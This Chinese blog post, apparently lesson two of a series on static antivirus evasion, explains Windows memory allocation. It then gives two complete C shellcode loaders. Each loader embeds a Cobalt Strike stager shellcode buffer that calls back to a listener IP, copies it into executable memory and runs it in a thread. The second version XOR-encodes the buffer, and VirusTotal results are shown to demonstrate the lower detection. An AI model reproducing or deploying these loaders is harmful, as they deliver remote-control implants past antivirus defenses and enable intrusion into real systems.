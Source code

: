 ```yaml
---
title: 静态恶意代码逃逸（第二课）
layout: post
date: '2019-11-10'
permalink: "/archivers/2019-11-10/2"
description: 来来回回就会这么一点东西，不想一直停留在一个点上了，准备总结一下，往深的走。
---
```


## 0x01 关于Windows操作系统内存

前五课的代码将会上传至Github，方便读者下载研究 : https://github.com/Rvn0xsy/BadCode

这里还是稍微展开介绍一下，Windows操作系统的内存有三种属性，分别为：可读、可写、可执行，并且操作系统将每个进程的内存都隔离开来，当进程运行时，创建一个虚拟的内存空间，系统的内存管理器将虚拟内存空间映射到物理内存上，所以每个进程的内存都是等大的。

操作系统给予每个进程申请内存的权力，使用不同的API，申请的内存具有不同的涵义。

在进程申请时，需要声明这块内存的基本信息：申请内存大小、申请内存起始内存基址、申请内存属性、申请内存对外的权限等。

申请方式：

- HeapAlloc
- malloc
- VirtualAlloc
- new
- LocalAlloc
- …

## 0x02 申请内存API的关系

其实以上所有的内存申请方式都与VirtualAlloc有关，因为VirtualAlloc申请的单位是“页”。而Windows操作系统管理内存的单位也是“页”。

## 0x03 实现一次正常加载

这里我创建了一个C++项目，名字为：BadCode

先来使用cobaltstrike默认的shellcode进行加载，为了方便阅读参考，在代码中我会尽量留下注释。

```c
#include <Windows.h>


// 入口函数
int wmain(int argc,TCHAR * argv[]){

    int shellcode_size = 0; // shellcode长度
    DWORD dwThreadId; // 线程ID
    HANDLE hThread; // 线程句柄
/* length: 800 bytes */

unsigned char buf[] = "\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31\xc0\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe2\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12\xeb\x86\x5d\x68\x6e\x65\x74\x00\x68\x77\x69\x6e\x69\x54\x68\x4c\x77\x26\x07\xff\xd5\x31\xff\x57\x57\x57\x57\x57\x68\x3a\x56\x79\xa7\xff\xd5\xe9\x84\x00\x00\x00\x5b\x31\xc9\x51\x51\x6a\x03\x51\x51\x68\x90\x1f\x00\x00\x53\x50\x68\x57\x89\x9f\xc6\xff\xd5\xeb\x70\x5b\x31\xd2\x52\x68\x00\x02\x60\x84\x52\x52\x52\x53\x52\x50\x68\xeb\x55\x2e\x3b\xff\xd5\x89\xc6\x83\xc3\x50\x31\xff\x57\x57\x6a\xff\x53\x56\x68\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x84\xc3\x01\x00\x00\x31\xff\x85\xf6\x74\x04\x89\xf9\xeb\x09\x68\xaa\xc5\xe2\x5d\xff\xd5\x89\xc1\x68\x45\x21\x5e\x31\xff\xd5\x31\xff\x57\x6a\x07\x51\x56\x50\x68\xb7\x57\xe0\x0b\xff\xd5\xbf\x00\x2f\x00\x00\x39\xc7\x74\xb7\x31\xff\xe9\x91\x01\x00\x00\xe9\xc9\x01\x00\x00\xe8\x8b\xff\xff\xff\x2f\x50\x45\x4f\x78\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x00\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x35\x2e\x30\x20\x28\x63\x6f\x6d\x70\x61\x74\x69\x62\x6c\x65\x3b\x20\x4d\x53\x49\x45\x20\x39\x2e\x30\x3b\x20\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x36\x2e\x31\x3b\x20\x54\x72\x69\x64\x65\x6e\x74\x2f\x35\x2e\x30\x3b\x20\x42\x4f\x49\x45\x39\x3b\x4e\x4c\x4e\x4c\x29\x0d\x0a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x00\x68\xf0\xb5\xa2\x56\xff\xd5\x6a\x40\x68\x00\x10\x00\x00\x68\x00\x00\x40\x00\x57\x68\x58\xa4\x53\xe5\xff\xd5\x93\xb9\x00\x00\x00\x00\x01\xd9\x51\x53\x89\xe7\x57\x68\x00\x20\x00\x00\x53\x56\x68\x12\x96\x89\xe2\xff\xd5\x85\xc0\x74\xc6\x8b\x07\x01\xc3\x85\xc0\x75\xe5\x58\xc3\xe8\xa9\xfd\xff\xff\x31\x39\x32\x2e\x31\x36\x38\x2e\x31\x37\x30\x2e\x31\x32\x38\x00\x00\x00\x00\x00";

// 获取shellcode大小
shellcode_size = sizeof(buf);

/*
VirtualAlloc(
    NULL, // 基址
    800,  // 大小
    MEM_COMMIT, // 内存页状态
    PAGE_EXECUTE_READWRITE // 可读可写可执行
    );
*/

char * shellcode = (char *)VirtualAlloc(
    NULL,
    shellcode_size,
    MEM_COMMIT,
    PAGE_EXECUTE_READWRITE
    );
    // 将shellcode复制到可执行的内存页中
CopyMemory(shellcode,buf,shellcode_size);

hThread = CreateThread(
    NULL, // 安全描述符
    NULL, // 栈的大小
    (LPTHREAD_START_ROUTINE)shellcode, // 函数
    NULL, // 参数
    NULL, // 线程标志
    &dwThreadId // 线程ID
    );

WaitForSingleObject(hThread,INFINITE); // 一直等待线程执行结束
    return 0;
}

```

编译成功后，运行：

![2019-11-10-02-02-56](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/ae3c7c2523b769b9daf73290eba00e9d.png)

V站查杀结果：

![2019-11-10-02-03-07](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/9ae0b7ce7224d81bcb3faa012e97b3b2.png)

https://www.virustotal.com/gui/file/00b0fe741923838b5757281e2ea37c0732c88443a8a4730f384371d8a8b0c2b0/detection

这个效果已经很好，但是我想要更好。

## 0x04 实现一次混淆加载

使用之前的Python脚本混淆生成RAW文件，最后得到混淆后的数组：

```c
#include <Windows.h>


// 入口函数
int wmain(int argc,TCHAR * argv[]){

    int shellcode_size = 0; // shellcode长度
    DWORD dwThreadId; // 线程ID
    HANDLE hThread; // 线程句柄
/* length: 800 bytes */

unsigned char buf[] = "\xf6\xe2\x83\x0a\x0a\x0a\x6a\x83\xef\x3b\xd8\x6e\x81\x58\x3a\x81\x58\x06\x81\x58\x1e\x81\x78\x22\x05\xbd\x40\x2c\x3b\xf5\x3b\xca\xa6\x36\x6b\x76\x08\x26\x2a\xcb\xc5\x07\x0b\xcd\xe8\xfa\x58\x5d\x81\x58\x1a\x81\x48\x36\x0b\xda\x81\x4a\x72\x8f\xca\x7e\x40\x0b\xda\x5a\x81\x42\x12\x81\x52\x2a\x0b\xd9\xe9\x36\x43\x81\x3e\x81\x0b\xdc\x3b\xf5\x3b\xca\xa6\xcb\xc5\x07\x0b\xcd\x32\xea\x7f\xfe\x09\x77\xf2\x31\x77\x2e\x7f\xe8\x52\x81\x52\x2e\x0b\xd9\x6c\x81\x06\x41\x81\x52\x16\x0b\xd9\x81\x0e\x81\x0b\xda\x83\x4e\x2e\x2e\x51\x51\x6b\x53\x50\x5b\xf5\xea\x52\x55\x50\x81\x18\xe1\x8c\x57\x62\x64\x6f\x7e\x0a\x62\x7d\x63\x64\x63\x5e\x62\x46\x7d\x2c\x0d\xf5\xdf\x3b\xf5\x5d\x5d\x5d\x5d\x5d\x62\x30\x5c\x73\xad\xf5\xdf\xe3\x8e\x0a\x0a\x0a\x51\x3b\xc3\x5b\x5b\x60\x09\x5b\x5b\x62\x9a\x15\x0a\x0a\x59\x5a\x62\x5d\x83\x95\xcc\xf5\xdf\xe1\x7a\x51\x3b\xd8\x58\x62\x0a\x08\x6a\x8e\x58\x58\x58\x59\x58\x5a\x62\xe1\x5f\x24\x31\xf5\xdf\x83\xcc\x89\xc9\x5a\x3b\xf5\x5d\x5d\x60\xf5\x59\x5c\x62\x27\x0c\x12\x71\xf5\xdf\x8f\xca\x05\x8e\xc9\x0b\x0a\x0a\x3b\xf5\x8f\xfc\x7e\x0e\x83\xf3\xe1\x03\x62\xa0\xcf\xe8\x57\xf5\xdf\x83\xcb\x62\x4f\x2b\x54\x3b\xf5\xdf\x3b\xf5\x5d\x60\x0d\x5b\x5c\x5a\x62\xbd\x5d\xea\x01\xf5\xdf\xb5\x0a\x25\x0a\x0a\x33\xcd\x7e\xbd\x3b\xf5\xe3\x9b\x0b\x0a\x0a\xe3\xc3\x0b\x0a\x0a\xe2\x81\xf5\xf5\xf5\x25\x39\x7f\x65\x4f\x0a\x3f\x45\x2b\x5a\x2f\x4a\x4b\x5a\x51\x3e\x56\x5a\x50\x52\x3f\x3e\x22\x5a\x54\x23\x3d\x49\x49\x23\x3d\x77\x2e\x4f\x43\x49\x4b\x58\x27\x59\x5e\x4b\x44\x4e\x4b\x58\x4e\x27\x4b\x44\x5e\x43\x5c\x43\x58\x5f\x59\x27\x5e\x4f\x59\x5e\x27\x4c\x43\x46\x4f\x2b\x2e\x42\x21\x42\x20\x0a\x3f\x45\x2b\x5a\x2f\x0a\x5f\x79\x6f\x78\x27\x4b\x6d\x6f\x64\x7e\x30\x2a\x47\x65\x70\x63\x66\x66\x6b\x25\x3f\x24\x3a\x2a\x22\x69\x65\x67\x7a\x6b\x7e\x63\x68\x66\x6f\x31\x2a\x47\x59\x43\x4f\x2a\x33\x24\x3a\x31\x2a\x5d\x63\x64\x6e\x65\x7d\x79\x2a\x44\x5e\x2a\x3c\x24\x3b\x31\x2a\x5e\x78\x63\x6e\x6f\x64\x7e\x25\x3f\x24\x3a\x31\x2a\x48\x45\x43\x4f\x33\x31\x44\x46\x44\x46\x23\x07\x00\x0a\x3f\x45\x2b\x5a\x2f\x4a\x4b\x5a\x51\x3e\x56\x5a\x50\x52\x3f\x3e\x22\x5a\x54\x23\x3d\x49\x49\x23\x3d\x77\x2e\x4f\x43\x49\x4b\x58\x27\x59\x5e\x4b\x44\x4e\x4b\x58\x4e\x27\x4b\x44\x5e\x43\x5c\x43\x58\x5f\x59\x27\x5e\x4f\x59\x5e\x27\x4c\x43\x46\x4f\x2b\x2e\x42\x21\x42\x20\x0a\x3f\x45\x2b\x5a\x2f\x4a\x4b\x5a\x51\x3e\x56\x5a\x50\x52\x3f\x3e\x22\x5a\x54\x23\x3d\x49\x49\x23\x3d\x77\x2e\x4f\x43\x49\x4b\x58\x27\x59\x5e\x4b\x44\x4e\x4b\x58\x4e\x27\x4b\x44\x5e\x43\x5c\x43\x58\x5f\x59\x27\x5e\x4f\x59\x5e\x27\x4c\x43\x46\x4f\x2b\x2e\x42\x21\x42\x20\x0a\x3f\x45\x2b\x5a\x2f\x4a\x4b\x5a\x51\x3e\x56\x5a\x50\x52\x3f\x3e\x22\x5a\x54\x23\x3d\x49\x49\x23\x3d\x77\x2e\x4f\x43\x49\x4b\x58\x27\x59\x5e\x4b\x44\x4e\x4b\x58\x4e\x27\x4b\x44\x5e\x43\x5c\x43\x58\x5f\x59\x27\x5e\x4f\x59\x5e\x27\x4c\x43\x46\x4f\x2b\x2e\x42\x21\x42\x20\x0a\x3f\x45\x2b\x5a\x2f\x4a\x4b\x5a\x51\x0a\x62\xfa\xbf\xa8\x5c\xf5\xdf\x60\x4a\x62\x0a\x1a\x0a\x0a\x62\x0a\x0a\x4a\x0a\x5d\x62\x52\xae\x59\xef\xf5\xdf\x99\xb3\x0a\x0a\x0a\x0a\x0b\xd3\x5b\x59\x83\xed\x5d\x62\x0a\x2a\x0a\x0a\x59\x5c\x62\x18\x9c\x83\xe8\xf5\xdf\x8f\xca\x7e\xcc\x81\x0d\x0b\xc9\x8f\xca\x7f\xef\x52\xc9\xe2\xa3\xf7\xf5\xf5\x3b\x33\x38\x24\x3b\x3c\x32\x24\x3b\x3d\x3a\x24\x3b\x38\x32\x0a\x0a\x0a\x0a\x0a";


// 获取shellcode大小
shellcode_size = sizeof(buf);

/* 增加异或代码 */
for(int i = 0;i<shellcode_size; i++){
    buf[i] ^= 10;
}
/*
VirtualAlloc(
    NULL, // 基址
    800,  // 大小
    MEM_COMMIT, // 内存页状态
    PAGE_EXECUTE_READWRITE // 可读可写可执行
    );
*/

char * shellcode = (char *)VirtualAlloc(
    NULL,
    shellcode_size,
    MEM_COMMIT,
    PAGE_EXECUTE_READWRITE
    );
    // 将shellcode复制到可执行的内存页中
CopyMemory(shellcode,buf,shellcode_size);

hThread = CreateThread(
    NULL, // 安全描述符
    NULL, // 栈的大小
    (LPTHREAD_START_ROUTINE)shellcode, // 函数
    NULL, // 参数
    NULL, // 线程标志
    &dwThreadId // 线程ID
    );

WaitForSingleObject(hThread,INFINITE); // 一直等待线程执行结束
    return 0;
}
```

上线效果：

![2019-11-10-02-03-50](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/84bf754d1afd227d93498e3f430869e1.png)

![2019-11-10-02-03-57](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/94ab9484b62fef4f84b36dd0671a8b21.png)

V站查杀：

![2019-11-10-02-04-08](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/55b2a8ab680d466d52d20b40011fe9f4.png)

https://www.virustotal.com/gui/file/a12105a78ccc3228bae12c170782c71b8212bd44e65f519947c6136f17e04723/detection

